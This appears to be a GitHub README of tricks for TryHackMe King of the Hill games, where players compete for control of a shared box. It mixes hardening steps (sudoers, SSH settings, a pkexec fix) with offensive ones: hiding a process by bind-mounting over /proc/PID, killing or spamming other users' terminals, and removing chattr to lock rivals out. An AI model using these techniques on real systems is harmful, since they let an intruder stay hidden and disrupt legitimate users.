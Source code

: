 # Shell vs Shell
## Linux techniques for shell vs shell in koth

Repository Creator
[![N|Solid](https://trackalerts.com/wp-content/uploads/2020/01/youtube.png)](https://youtube.com/c/MatheuZSecurity)

#### This repository aims to show techniques to be able to use in a shell x shell in koth
# Examples
### Hide your PTS
 if you have an opponent, and he is killing your session, you can become invisible in the machine, you can use this technique to hide on the machine, without needing a rootkit to hide

```
mount -o bind /tmp /proc/PID

or

mount --bind /tmp/hidden /proc/$pid

```

there where it is written PID, you will put your PID there, for example you can use ps aux to get the PID of your PTS, and using this command you will be invisible, and your opponent will not be able to kill your session

## Fixing vulnerabilities

to protect the machine from other opponents it is very important to check if in /etc/sudoers any user is running some binary with root permission, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
``` 
here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there
```
root ALL=(ALL=ALL) ALL
```
and it will be like that, so there will be no way to climb privilege by su and git

## Protecting SSH
if any user changed the root password for example you can lock it so that it doesn't log in directly as root using ssh

> nano /etc/ssh/sshd_config

in this configuration, you will go to "PermitRootLogin" and
set it to "no"

> PermitRootLogin no

you can also put which users can connect to the server, for example if you are already malicious, you can create a user of your own and put root permissions, and define so that only you can connect to the server, but I recommend that you don't do that , do this only in private rooms with your friends.
> nano /etc/ssh/sshd_config

> AllowUsers user1 user2

## Change default SSH port

you can change the default ssh port and for example put it on a high port like 55999

> nano /etc/ssh/sshd_config

```
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```
> service sshd restart 

#### You can also set a limit on the number of authentication attempts and it can help prevent brute force attacks

> sudo nano /etc/ssh/sshd_config

arrive at the option “#MaxAuthTries 0” remove the # , and change it to the desired value, for example 3 attempts

> MaxAuthTries 3

Then save and restart

> sudo systemctl restart sshd

#### You can also remove the private key and public key from users, for example
> rm /home/user1/.ssh/id_rsa

> rm /home/user1/.ssh/id_rsa.pub

#### You can also generate other ssh keys for the user

> ssh-keygen -t rsa

#### Many people use the recent vulnerability (Polkit) to escalate privileges, you can make it a bit more difficult by patching it.

> chmod 0755 /usr/bin/pkexec

## Chattr

in koth, it is forbidden to change the permission of binaries, for example give a chmod 700 /usr/bin/find, except chattr, the chattr binary that you can remove from the machine ( remove from the machine after you use: chattr +i king. txt), rm /usr/bin/chattr, so no one will be able to change the attributes of king.txt

- but if you have access to a koth box and you don't have chattr you can get a chattr binary from github and compile it on the machine and use

> wget https://raw.githubusercontent.com/posborne/linux-programming-interface-exercises/master/15-file-attributes/chattr.c

> gcc chattr.c -o chattr

> ./chattr +i king.txt

and so you can upload that binary on the koth machine, or even upload chattr.c on the machine and compile the binary, so you can use

#### if you're like me and you like to troll your opponents, here are some really cool things you can use to make fun of your friends

#### For you to know who is on the machine, just use the following commands.

> ps aux | grep pts

> who

> w

# Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

#### Sending Nyancat to machine

> python -m SimpleHTTPServer <Port> # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy

#### Breaking pts by sending spam from urandom

> cat /dev/urandom > /dev/pts/#

#### killing session of a user logged into ssh/system
> pkill -9 -t pts/#

#### breaking into the shell of users logged into SSH

you can use the following command to break into the shell of other logged in users

> script -f /dev/pts/#

## Note

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill

# more content here soon!
